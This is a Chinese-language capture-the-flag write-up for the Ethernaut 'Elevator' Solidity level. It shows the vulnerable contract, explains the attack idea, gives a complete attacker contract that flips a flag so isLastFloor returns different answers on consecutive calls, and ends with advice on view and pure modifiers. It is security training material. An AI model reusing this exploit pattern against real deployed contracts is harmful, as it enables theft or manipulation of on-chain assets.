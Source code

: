 # Elevator

> 电梯不会让你达到大楼顶部, 对吧?

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## 攻击思路

只要两次连续调用返回的bool值不同即可

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {

    Elevator constant private target = Elevator(0xB1092Eed9f891efF6C136f54eee0b33FBB0a7E72);

    bool flag = false;

    function attack() public{
        target.goTo(100);
    }
    
    function isLastFloor(uint floor) external returns (bool){
       bool _flag = flag;
       flag = !flag;
       return _flag;
   }
}
```

你可以在接口使用 `view` 函数修改器来防止状态被篡改. `pure` 修改器也可以防止状态被篡改. 认真阅读 [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) 并学习注意事项.

完成这一关的另一个方法是构建一个 view 函数, 这个函数根据不同的输入数据返回不同的结果, 但是不更改状态, 比如 `gasleft()`.